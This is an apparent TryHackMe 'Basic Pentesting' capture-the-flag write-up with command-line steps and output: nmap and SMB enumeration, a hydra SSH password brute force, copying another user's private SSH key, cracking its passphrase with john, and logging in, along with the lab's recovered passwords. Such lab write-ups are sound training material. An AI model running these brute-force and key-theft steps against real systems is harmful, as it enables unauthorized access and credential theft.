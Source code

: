 #TryHackMe #linux 
# Enumeration
## Nmap
PORT     STATE SERVICE     VERSION
```
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
```
## SMB
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# smbclient -N -L \\\\10.10.197.244\\                  
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      
        IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# smbclient -N \\\\10.10.197.244\\Anonymous 
	Try "help" to get a list of possible commands.
	smb: \> ls
	  .                                   D        0  Thu Apr 19 13:31:20 2018
	  ..                                  D        0  Thu Apr 19 13:13:06 2018
	  staff.txt                           N      173  Thu Apr 19 13:29:55 2018
	                14318640 blocks of size 1024. 11093364 blocks available
	smb: \> get staff.txt
	getting file \staff.txt of size 173 as staff.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
	smb: \> 

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# cat staff.txt
	Announcement to staff:
	PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
	this is how mistakes happen. (This means you too, [Jan]!)

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# enum4linux 10.10.197.244
	...SNIP...
	S-1-22-1-1000 Unix User/kay (Local User)                                                     
	S-1-22-1-1001 Unix User/[jan] (Local User)


# Exploit
[┌──(root㉿kali)-/media/sf_kali_partage/challenge/THM/Basic_Pentesting
└─#] hydra 10.10.197.244 -s 22 ssh -l jan -P /usr/share/wordlists/rockyou.txt
	`[22][ssh]` host: 10.10.197.244   login: [jan]   password: [armando]


# FootHold
┌──(root㉿kali)-[~]
└─# ssh jan@thm

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# scp jan@thm:/home/kay/.ssh/id_rsa /media/sf_kali_partage/challenge/THM/Basic_Pentesting
	jan@thm's password: 
	id_rsa                               100% 3326     4.8KB/s   00:00  

# PrivEsc
┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# ssh2john kay_id_rsa > kay_id_rsa_hash

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# john kay_id_rsa_hash -wordlist=/usr/share/wordlists/rockyou.txt 
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
	Cost 2 (iteration count) is 1 for all loaded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	[beeswax ]         (kay_id_rsa)

┌──(root㉿kali)-[/media/sf_kali_partage/challenge/THM/Basic_Pentesting]
└─# ssh kay@thm -i /kay_id_rsa

kay@basic2:~$ id
	uid=1000(kay) gid=1000(kay) groups=1000(kay),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
